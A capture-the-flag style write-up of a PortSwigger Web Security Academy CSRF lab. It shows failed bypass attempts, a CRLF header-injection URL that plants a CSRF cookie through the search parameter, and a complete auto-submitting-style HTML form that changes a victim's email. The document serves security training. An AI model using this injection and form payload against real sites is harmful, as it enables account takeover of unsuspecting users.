

# Lab: CSRF where token is tied to non-session cookie

> Lab Objective: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address
> Note: Login Credentials `wiener:peter` and `carlos:montoya`

- Firstly, I'll login using these credentials `wiener:peter`.
  

- Then change the email of this account to `test@gmail.com`
  

- When Viewing the Request in Burp Suite, I've noticed that he users a CSRF Token and csrfkey parameter within the cookie.
  

- I've tried several ways to bypass either the csrf token or csrfkey within the cookie which are:

  - Removing the value of CSRF token and leave the parameter `&csrf=`, the response resulted in `400 Bad Request`.
  - Remove the csrf parameter and value, the response resulted in `400 Bad Request`.
  - Removing the csrf key within the cookie, the response resulted in `400 Bad Request`.

- When I change the value of the CSRF parameter, or the CSRF Cookie the response results in `400 Bad Request`.

- Therefore, CSRF Parameter and Cookie are tied together.

- And I want you deliver both a valid CSRf Parameter and a Valid CSRF Cookie to the victim.

- I have to find a point in the application to set the CSRF Cookie.

- In the home page when You search a term (e.g., `test`) the response headers include `Set-Cookie: LastSearchTerm=test;`
  

- Firstly I want the victim to visit the following link to set my CSRF Cookie. `/?search=test;%0d%0aSet-Cookie:csrfkey=w22thPDqJu7RvrVY2E5QakjXANqgGEz0`

- Then Submit a form with my CSRF Parameter to change his email.

- And the crafted payload will be:

```html
<html>
  <body>
    <form
      action="https://0ac100f8044f510280221782007e0095.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="updated-email@gmail.com" />
      <input
        type="hidden"
        name="csrf"
        value="WxuquUjF4PLJw3gqlNFeeBtiwJbe5eJG"
      />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>
```

- Store the payload in the exploit server then deliver exploit to victim.

- And the lab is solved successfully.
  

---
